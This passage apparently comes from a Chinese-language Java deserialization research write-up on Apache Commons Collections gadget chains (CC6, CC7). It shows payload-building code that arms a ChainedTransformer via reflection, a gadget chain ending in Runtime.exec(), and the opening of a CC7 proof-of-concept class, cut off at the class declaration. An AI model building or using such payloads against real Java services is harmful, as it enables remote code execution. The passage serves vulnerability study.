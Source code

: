         TiedMapEntry tiedMapEntry = new TiedMapEntry(evalMap, "test");
        // 使用HashSet
        HashSet<Object> res = new HashSet<>();
        res.add(tiedMapEntry);
    
        // 最后再将真正触发RCE的transformer设置到chainedTransformer中
        Class<? extends ChainedTransformer> clazz = chainedTransformer.getClass();
        Field iTransformers = clazz.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(chainedTransformer,trueTransformer);
    
        // 因为HashSet#add()会执行hashMap#put()，最终会触发LazyMap#get()，导致LazyMap生成键值对{"test":1}，所以需要remove掉
        evalMap.remove("test");
        return res;
    }

调用链如下，可以看到，并不是最优的：

	Gadget chain:
	    java.io.ObjectInputStream.readObject()
	        java.util.HashSet.readObject()
	            java.util.HashMap.put()
	            java.util.HashMap.hash()
	                org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
	                org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
	                    org.apache.commons.collections.map.LazyMap.get()
	                        org.apache.commons.collections.functors.ChainedTransformer.transform()
	                        org.apache.commons.collections.functors.InvokerTransformer.transform()
	                        java.lang.reflect.Method.invoke()
	                            java.lang.Runtime.exec()

### CC7
给出POC如下所示：

	package com.pinger.javasec.ysoserial;
	
	import com.pinger.javasec.util.SerialUtil;
	import org.apache.commons.collections.Transformer;
	import org.apache.commons.collections.functors.ChainedTransformer;
	import org.apache.commons.collections.functors.ConstantTransformer;
	import org.apache.commons.collections.functors.InvokerTransformer;
	import org.apache.commons.collections.map.LazyMap;
	import java.lang.reflect.Field;
	import java.util.HashMap;
	import java.util.Map;
	
	/**
	 * @author : p1n93r
	 * @date : 2021/4/2 17:28
	 * CC7 Gadget研究
	 * 底层也是LazyMap，只不过现在是利用HashTable的hash碰撞触发HashMap#hash(TiedMapEntry)
	 * 然后调用TiedMapEntry#hashCode()，进而触发TiedMapEntry#getValue()-->LazyMap#get()
	 */
	public class CC7 {
	